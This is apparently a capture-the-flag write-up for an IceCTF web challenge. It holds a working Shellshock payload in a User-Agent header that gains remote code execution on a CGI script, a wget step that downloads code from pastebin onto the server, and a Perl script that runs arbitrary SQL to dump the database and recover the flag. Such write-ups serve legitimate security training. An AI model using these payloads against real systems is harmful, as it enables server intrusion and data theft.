 # GeoIP

The Team found that we could run RCE with this command:
```bash
  curl -v -H "User-Agent: () { test;};echo \"Content-type: text/plain\"; echo; echo;/bin/bash -c 'perl /tmp/bi/DUbHRGqh select \* from 47a6fd2ca39d2b0d6eea1c30008dd889'" http://geocities.vuln.icec.tf/index.cgi
```

so I used pastebin to charge code in it :
```bash
wget -P /tmp/bi/ http://pastebin....
```

used following file:
```perl
  #!/usr/bin/perl
  use DBI;
  $my_cmd = "";
  foreach $argnum(0 .. $#ARGV) {
    $my_cmd = $my_cmd . $ARGV[$argnum] . " ";
  }
  print $my_cmd;
  my $dbh = DBI->connect(
      "dbi:mysql:dbname=geocities;host=icectf_mariadb",
      "geocities",
      "geocities",
      { RaiseError => 1 },
  ) or die $DBI::errstr;
  my $sth = $dbh->prepare($my_cmd);
  $sth->execute();
  my $row;
  while ($row = $sth->fetchrow_arrayref()) {
      print "@$row\n";
  }
  $sth->finish();
  $dbh->disconnect();

```

then could query the db easily using the script and all the arguments of the perl script as the mysql query

```bash
  curl -v -H "User-Agent: () { test;};echo \"Content-type: text/plain\"; echo; echo;/bin/bash -c 'perl /tmp/bi/DUbHRGqh sql_query'" http://geocities.vuln.icec.tf/index.cgi

```

Results of the queries:

```
show tables;
  Posts
  47a6fd2ca39d2b0d6eea1c30008dd889

(note that * must be escaped in bash)
Select \* from 47a6fd2ca39d2b0d6eea1c30008dd889;
  IceCTF{7h3_g0s_WEr3_5UpeR_wE1Rd_mY_3ye5_HUr7}
```

We got the flag !
